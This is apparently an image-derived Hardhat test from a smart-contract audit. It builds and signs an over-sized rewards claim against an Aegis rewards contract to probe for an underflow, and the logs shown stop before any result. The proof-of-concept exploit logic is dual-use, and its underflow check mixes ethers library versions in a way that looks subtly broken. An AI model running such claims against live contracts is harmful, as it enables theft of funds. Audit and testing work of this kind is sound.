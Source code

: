 ```javascript
        // Get initial reward amounts for reference
        const reward1Before = await aegisRewardsContract.rewardById(snapshotId1)
        const reward2Before = await aegisRewardsContract.rewardById(snapshotId2)
        console.log(`Reward 1 initial amount: ${ethers.formatEther(reward1Before.amount)} ETH`)
        console.log(`Reward 2 initial amount: ${ethers.formatEther(reward2Before.amount)} ETH`)

        // ATTACK: Create a claim request with amounts larger than the available rewards
        // We'll try to claim more from reward1 than is available, which should cause an underflow
        const excessiveAmount = smallAmount + (ethers.parseEther('10')) // 11 ETH - much more than the 1 ETH available

        const attackClaimRequest = {
          claimer: owner.address,
          ids: [ethers.encodeBytes32String(snapshotId1), ethers.encodeBytes32String(snapshotId2)],
          amounts: [excessiveAmount, largeAmount], // Claim more than available from reward1
        }

        // Generate signature for the attack
        const attackSignature = await signClaimRequest(attackClaimRequest, aegisRewardsAddress)

        // Execute the attack - this should either:
        // 1. Cause an underflow if the contract doesn't have proper safeguards
        // 2. Revert if there are checks to prevent claiming more than available
        try {
          await aegisRewardsContract.claimRewards(attackClaimRequest, attackSignature)

          // If we reach here, the transaction didn't revert
          // Check if an underflow occurred by looking at the new reward amount
          const reward1After = await aegisRewardsContract.rewardById(snapshotId1)
          console.log(`Reward 1 after attack: ${ethers.formatEther(reward1After.amount)} ETH`)

          // If we have an underflow, the amount would be a very large number
          // In a uint256, underflow would wrap around to 2^256 - (excessiveAmount - smallAmount)
          const isUnderflow = reward1After.amount.gt(ethers.parseEther('1000000')) // Check if the amount is unreasonably large

          if (isUnderflow) {
            console.log("✓ VULNERABILITY CONFIRMED: Underflow occurred!")
            expect(reward1After.amount).to.be.gt(ethers.parseEther('1000000'))
          } else {
            // If the amount shows as negative or zero, there might be a different issue
            console.log("✓ VULNERABILITY CONFIRMED: Claimed more than available without reverting")
            expect(reward1After.amount).to.be.equal(0) // or potentially a very small number if partial subtraction
          }
        } catch (error) {
          // If the transaction reverted, check if it's due to underflow protection
          console.log(`✗ Transaction reverted: ${error.message}`)

          if (error.message.includes("underflow") || error.message.includes("subtraction overflow")) {
            console.log("Contract has underflow protection but allows signature manipulation")
          } else {
            console.log("Transaction failed for a different reason")
          }
        }
      })
```
Test logs:
```bash
Reward 1 initial amount: 1.0 ETH
Reward 2 initial amount: 5.0 ETH
```